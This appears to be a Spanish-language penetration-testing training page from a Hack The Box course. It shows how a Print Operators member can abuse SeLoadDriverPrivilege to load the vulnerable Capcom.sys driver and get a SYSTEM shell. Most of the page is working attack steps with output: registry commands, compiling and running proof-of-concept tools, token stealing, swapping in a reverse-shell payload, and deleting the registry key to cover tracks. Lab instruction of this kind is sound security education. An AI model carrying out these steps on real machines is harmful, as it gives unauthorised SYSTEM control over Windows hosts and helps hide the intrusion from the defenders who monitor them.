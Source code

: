 [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#print-operators) es otro grupo altamente privilegiado, que otorga a sus miembros el `SeLoadDriverPrivilege`, derechos para gestionar, crear, compartir y eliminar impresoras conectadas a un Domain Controller, así como la capacidad de iniciar sesión localmente en un Domain Controller y apagarlo. Si emitimos el comando `whoami /priv` y no vemos el `SeLoadDriverPrivilege` desde un contexto no elevado, necesitaremos bypass UAC.

### Confirming Privileges

```r
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name           Description                          State
======================== =================================    =======
SeIncreaseQuotaPrivilege Adjust memory quotas for a process   Disabled
SeChangeNotifyPrivilege  Bypass traverse checking             Enabled
SeShutdownPrivilege      Shut down the system                 Disabled
```

### Checking Privileges Again

El repositorio de [UACMe](https://github.com/hfiref0x/UACME) cuenta con una lista completa de bypasses de UAC, que se pueden usar desde la línea de comandos. Alternativamente, desde una GUI, podemos abrir una consola de comandos administrativa e ingresar las credenciales de la cuenta que es miembro del grupo Print Operators. Si examinamos los privilegios de nuevo, el `SeLoadDriverPrivilege` es visible pero está deshabilitado.

```r
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```

Es bien sabido que el driver `Capcom.sys` contiene funcionalidad para permitir que cualquier usuario ejecute shellcode con privilegios de SYSTEM. Podemos usar nuestros privilegios para cargar este driver vulnerable y escalar privilegios. Podemos usar [esta](https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp) herramienta para cargar el driver. El PoC habilita el privilegio y también carga el driver por nosotros.

Descárgalo localmente y edítalo, pegando sobre los includes a continuación.

```r
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

Luego, desde un Visual Studio 2019 Developer Command Prompt, compílalo usando **cl.exe**.

### Compile with cl.exe

```r
C:\Users\mrb3n\Desktop\Print Operators>cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

### Add Reference to Driver

A continuación, descarga el driver `Capcom.sys` desde [aquí](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys) y guárdalo en `C:\temp`. Emite los comandos a continuación para agregar una referencia a este driver bajo nuestro árbol HKEY_CURRENT_USER.

```r
C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

The operation completed successfully.


C:\htb> reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

La sintaxis extraña `\??\` utilizada para referenciar la ImagePath de nuestro driver malicioso es un [NT Object Path](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-even/c1550f98-a1ce-426a-9991-7509e7c3787c). La Win32 API analizará y resolverá esta ruta para ubicar y cargar correctamente nuestro driver malicioso.

### Verify Driver is not Loaded

Usando [DriverView.exe](http://www.nirsoft.net/utils/driverview.html) de Nirsoft, podemos verificar que el driver Capcom.sys no está cargado.

```r
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom
```

### Verify Privilege is Enabled

Ejecuta el binario `EnableSeLoadDriverPrivilege.exe`.

```r
C:\htb> EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

### Verify Capcom Driver is Listed

A continuación, verifica que el driver Capcom ahora está listado.

```r
PS C:\htb> .\DriverView.exe /stext drivers.txt
PS C:\htb> cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

### Use ExploitCapcom Tool to Escalate Privileges

Para explotar el `Capcom.sys`, podemos usar la herramienta [ExploitCapcom](https://github.com/tandasat/ExploitCapcom) después de compilarla con Visual Studio.

```r
PS C:\htb> .\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

Esto lanza un shell con privilegios de SYSTEM.

![printopsexploit](https://academy.hackthebox.com/storage/modules/67/capcomexploit.png)

---

## Alternate Exploitation - No GUI

Si no tenemos acceso GUI al objetivo, tendremos que modificar el código `ExploitCapcom.cpp` antes de compilarlo. Aquí podemos editar la línea 292 y reemplazar `"C:\\Windows\\system32\\cmd.exe"` con, por ejemplo, un binario de reverse shell creado con `msfvenom`, como: `c:\ProgramData\revshell.exe`.

```r
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

La cadena `CommandLine` en este ejemplo se cambiaría a:

```r
 TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

Configuraríamos un listener basado en el payload `msfvenom` que generamos y, con suerte, recibiríamos una conexión de reverse shell cuando ejecutamos `ExploitCapcom.exe`. Si una conexión de reverse shell está bloqueada por alguna razón, podemos intentar un bind shell o payload de exec/add user.

---

## Automating the Steps

### Automating with EoPLoadDriver

Podemos usar una herramienta como [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/) para automatizar el proceso de habilitar el privilegio, crear la clave de registro y ejecutar `NTLoadDriver` para cargar el driver. Para hacer esto, ejecutaríamos lo siguiente:

```r
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

Luego ejecutaríamos `ExploitCapcom.exe` para obtener un shell de SYSTEM o ejecutar nuestro binario personalizado.

---

## Clean-up

### Removing Registry Key

Podemos cubrir nuestras huellas un poco eliminando la clave de registro añadida anteriormente.

```r
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

Nota: Desde Windows 10 Version 1803, el "SeLoadDriverPrivilege" no es explotable, ya que ya no es posible incluir referencias a claves de registro bajo "HKEY_CURRENT_USER".